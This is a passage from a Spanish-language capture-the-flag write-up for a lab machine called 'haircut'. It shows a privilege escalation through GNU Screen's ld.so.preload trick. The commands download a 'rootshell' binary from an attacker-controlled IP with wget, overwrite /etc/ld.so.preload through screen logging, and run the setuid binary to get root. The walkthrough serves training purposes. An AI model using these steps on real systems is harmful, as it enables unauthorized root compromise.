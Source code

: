 ```bash

www-data@haircut:/tmp$ wget http://10.10.14.16/rootshell
--2021-10-19 04:43:49--  http://10.10.14.16/rootshell
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16816 (16K) [application/octet-stream]
Saving to: 'rootshell'

rootshell                        100%[=======================================================>]  16.42K  --.-KB/s    in 0.1s    

2021-10-19 04:43:50 (119 KB/s) - 'rootshell' saved [16816/16816]

www-data@haircut:/tmp$
```

Ahora ejecutamos los siguientes comando de acuerdo con lo que indica el script:

```bash
www-data@haircut:/tmp$ cd /etc
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/etc$ ls -l /tmp/rootshell 
-rwsr-xr-x 1 root root 16816 Oct 19 04:36 /tmp/rootshell
www-data@haircut:/etc$
www-data@haircut:/etc$ /tmp/rootshell
# whoami
root
# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
